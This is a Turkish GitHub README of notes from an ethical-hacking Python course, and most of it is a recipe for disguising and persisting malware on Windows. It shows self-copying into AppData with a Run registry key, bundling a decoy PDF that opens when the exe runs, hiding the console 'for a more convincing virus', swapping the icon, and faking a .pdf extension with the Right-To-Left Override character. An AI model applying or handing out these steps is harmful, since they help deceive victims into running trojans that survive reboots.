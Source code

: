 # ethical-hacker
Bu projede ,başlangıçta, Atıl Samancıoğlu'nun "Python: Sıfırdan İleri Seviyeye - Etik Hacker Örnekleriyle" kursunu takip ederek yazdığım kodlar vardır. Bunları kendim geliştireceğim ve yeni scriptler ekleyeceğim.

### Exe'ye Çevirme İşlemi (in Windows)
`pip install pyinstaller`

pyinstaller.exe'nin konumunu buluyoruz (.../Scripts/pyinstaller.exe).

`...\pyinstaller.exe PythonFile.py --onefile`

### Bilgisayar Her Açıldığında Programımızı Çalıştırmayı Sağlama (in Windows)
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v isim /t REG_SZ /d "C:\...\myexe.exe"`

Bu komut bir exe'yi her açılışta çalıştırmamıza yarıyor. Yapmamız gereken uygulamamızı gizli bir klasöre kopyalamak ve bu yeni dosyanın yolunu regedit'e eklemek. Kodda bunu yapmak için;
```
...

import subprocess
import os
import shutil
import sys

new_file = os.environ["appdata"] + "\\myexe.exe"
if not os.path.exists(new_file):
	shutil.copyfile(sys.executable,new_file)
	regedit_command = "Yukarıdaki regedit komutu (Sonundaki yolu new_file ile vereceğiz)"+new_file
	subprocess.call(regedit_command, shell=True)
...
```

### Dosyaya PDF Eklemek (in Windows)
Bunu paketleme sırasında yapıyoruz

`...\pyinstaller.exe PythonFile.py --onefile --add-data "...\dosya.pdf;."`	(;. ek olarak koymamız gerekiyor)

Bu tek başına yeterli değil. Aynı zamanda kodumuzun içinde exe'ye basıldığında bu dosyanın gösterilmesini sağlayacağız.
```
def open_added_file():
	added_file = sys._MEIPASS + "\\dosya.pdf"
	subprocess.Popen(added_file,shell=True)

...

open_added_file()
```
Ayrıca yukarıdaki komuta --noconsole eklersek terminal açılmasını engellemiş oluruz. Daha inandırıcı bir virüs yazmış oluruz. subprocess'in bir metodunda özel bir durum var, --noconsole yeterli olmuyor. Bu komut check_output. BU komutu yazarken de;

`degisken = subprocess.check_output("command",shell=True,stderr=subprocess.DEVNULL,stdin=subprocess.DEVNULL)`

### İkon Değiştirmek (in Windows)
Yukarıdaki paketleme komutuna --icon "...\icon_dosyasi.ico" eklememiz yeterlidir.

### Uzantıyı Değiştirmek (in Kali Linux)
`apt-get install gnome-characters`

Leafpad'da uygulamamızın ismini yazıyoruz. MyVirus.exe gibi.
Sonrasında düzenleme yapıyoruz. Yazıyı MyVirusfdp.exe şeklinde düzenliyoruz.
Characters uygulamasını açıyoruz. right-to-left seçeneğini aratıyoruz ve Right To Left Override'ı seçiyoruz. Copy Character diyoruz.
Sonrasında imlecimizi fdp.exe'nin başına koyuyoruz ve Ctrl+V yapıyoruz. Yazının değiştiğini görmeiz gerekiyor (MyVirusexe.pdf şeklinde). Sonrasında bunu kopyalıyoruz ve dosyamızı isimlendiriyoruz.
